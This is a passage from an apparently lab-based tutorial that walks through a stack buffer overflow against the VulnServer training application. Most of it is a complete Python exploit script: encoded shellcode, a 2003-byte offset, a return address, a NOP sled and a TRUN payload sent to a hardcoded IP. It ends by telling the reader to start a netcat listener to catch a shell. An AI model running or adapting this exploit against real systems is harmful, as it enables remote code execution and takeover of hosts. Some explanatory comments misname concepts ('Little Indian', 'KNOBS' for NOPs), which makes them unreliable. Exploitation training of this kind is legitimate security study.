


Generating Shellcode and Gaining Root
We can generate our shellcode with MSFVenom:




Here we need to eddit our previous Python script:
final_script.py
#!/usr/bin/python
import sys, socket
overflow = (
"\xdd\xc6\xd9\x74\x24\xf4\xbb\x2b\x97\x37\xe1\x5e\x2b\xc9\xb1"
"\x52\x83\xc6\x04\x31\x5e\x13\x03\x75\x84\xd5\x14\x75\x42\x9b"
"\xd7\x85\x93\xfc\x5e\x60\xa2\x3c\x04\xe1\x95\x8c\x4e\xa7\x19"
"\x66\x02\x53\xa9\x0a\x8b\x54\x1a\xa0\xed\x5b\x9b\x99\xce\xfa"
"\x1f\xe0\x02\xdc\x1e\x2b\x57\x1d\x66\x56\x9a\x4f\x3f\x1c\x09"
"\x7f\x34\x68\x92\xf4\x06\x7c\x92\xe9\xdf\x7f\xb3\xbc\x54\x26"
"\x13\x3f\xb8\x52\x1a\x27\xdd\x5f\xd4\xdc\x15\x2b\xe7\x34\x64"
"\xd4\x44\x79\x48\x27\x94\xbe\x6f\xd8\xe3\xb6\x93\x65\xf4\x0d"
"\xe9\xb1\x71\x95\x49\x31\x21\x71\x6b\x96\xb4\xf2\x67\x53\xb2"
"\x5c\x64\x62\x17\xd7\x90\xef\x96\x37\x11\xab\xbc\x93\x79\x6f"
"\xdc\x82\x27\xde\xe1\xd4\x87\xbf\x47\x9f\x2a\xab\xf5\xc2\x22"
"\x18\x34\xfc\xb2\x36\x4f\x8f\x80\x99\xfb\x07\xa9\x52\x22\xd0"
"\xce\x48\x92\x4e\x31\x73\xe3\x47\xf6\x27\xb3\xff\xdf\x47\x58"
"\xff\xe0\x9d\xcf\xaf\x4e\x4e\xb0\x1f\x2f\x3e\x58\x75\xa0\x61"
"\x78\x76\x6a\x0a\x13\x8d\xfd\xf5\x4c\x86\x7c\x9d\x8e\x98\x6f"
"\x02\x06\x7e\xe5\xaa\x4e\x29\x92\x53\xcb\xa1\x03\x9b\xc1\xcc"
"\x04\x17\xe6\x31\xca\xd0\x83\x21\xbb\x10\xde\x1b\x6a\x2e\xf4"
"\x33\xf0\xbd\x93\xc3\x7f\xde\x0b\x94\x28\x10\x42\x70\xc5\x0b"
"\xfc\x66\x14\xcd\xc7\x22\xc3\x2e\xc9\xab\x86\x0b\xed\xbb\x5e"
"\x93\xa9\xef\x0e\xc2\x67\x59\xe9\xbc\xc9\x33\xa3\x13\x80\xd3"
"\x32\x58\x13\xa5\x3a\xb5\xe5\x49\x8a\x60\xb0\x76\x23\xe5\x34"
"\x0f\x59\x95\xbb\xda\xd9\xb5\x59\xce\x17\x5e\xc4\x9b\x95\x03"
"\xf7\x76\xd9\x3d\x74\x72\xa2\xb9\x64\xf7\xa7\x86\x22\xe4\xd5"
"\x97\xc6\x0a\x49\x97\xc2")
# We are sending A until the offset (2003), then adding the Return Address
# Return Address: 625011af
# When we talk with x86 architectures, we are using Little Indian Format:
# https://en.wikipedia.org/wiki/Endianness
# The "\x90" * 32 is called "KNOBS": it is litteraly a padding
# Can help to run the code if something is interfering
offset = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.11.131',9999)) #Change with VulnServer IP Address
s.send(('TRUN /.:/' + offset))
s.close()
except:
print "Error connecting to server!!!"
sys.exit()
This time, we can run VulnServer without the Immunity Debugger,
Set up a listener (like netcat) and run the script


